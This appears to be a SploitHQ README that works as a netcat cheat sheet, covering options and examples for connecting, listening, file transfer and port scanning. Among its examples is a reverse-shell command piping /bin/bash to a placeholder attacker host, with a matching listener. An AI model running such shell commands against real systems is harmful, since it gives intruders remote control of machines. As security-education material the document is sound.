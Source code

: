 # Netcat (nc) – The Swiss Army Knife of Networking

**Netcat** (`nc`) is a lightweight command-line utility used for reading from and writing to network connections. It supports TCP and UDP protocols and is invaluable for debugging, banner grabbing, reverse shells, port scanning, file transfers, and service emulation.

🔗 [Explore Netcat Usage on SploitHQ](https://sploithq.com/nc-netcat)

---

## 🔍 What Can Netcat Do?

- Connect to remote services via TCP or UDP
- Set up simple servers and listeners
- Transfer files between systems
- Create bind and reverse shells
- Perform banner grabbing and basic port scans

---

## ⚙️ Basic Syntax

```bash
nc [options] [host] [port]
```

---

## 🧰 Common Options

| Option        | Description                                           |
|---------------|-------------------------------------------------------|
| `-l`          | Listen mode (server)                                  |
| `-p <port>`   | Local port to use                                     |
| `-v`          | Verbose output                                        |
| `-n`          | Do not resolve DNS names                              |
| `-z`          | Zero-I/O mode (useful for port scanning)              |
| `-u`          | Use UDP instead of TCP                                |
| `-e <cmd>`    | Execute a program after connection (may be restricted)|
| `-w <secs>`   | Set timeout for connects and final net reads          |
| `-k`          | Keep listening after client disconnects               |

---

## 🧪 Examples

### Connect to a web server (port 80)
```bash
nc example.com 80
```

### Listen on port 4444 (for reverse shell)
```bash
nc -lvnp 4444
```

### Reverse shell (target side)
```bash
nc attacker-ip 4444 -e /bin/bash
```

### File transfer (server side)
```bash
nc -l 1234 > received.txt
```

### File transfer (client side)
```bash
nc server-ip 1234 < file.txt
```

### Simple port scan (scan ports 1–1000)
```bash
nc -zv target-ip 1-1000
```

---

## 🔐 Notes on `-e`

- The `-e` option may be disabled in some versions of Netcat for security reasons.
- Use [Ncat](https://sploithq.com/ncat) if you need built-in support for `-e` and SSL.

---

## 🌐 SploitHQ Netcat Guide

👉 [Use the Netcat Cheatsheet and Payloads](https://sploithq.com/nc-netcat)

- Create bind/reverse shells
- Emulate services
- Transfer files and perform scans

---

## 🔗 Useful Links

- [Netcat Man Page](https://man7.org/linux/man-pages/man1/nc.1.html)
- [SploitHQ Netcat Page](https://sploithq.com/nc-netcat)

---

## 📄 License

Netcat is free software and included in many Unix-like systems.  
This documentation is provided by [SploitHQ](https://sploithq.com) for educational and legal security research use.

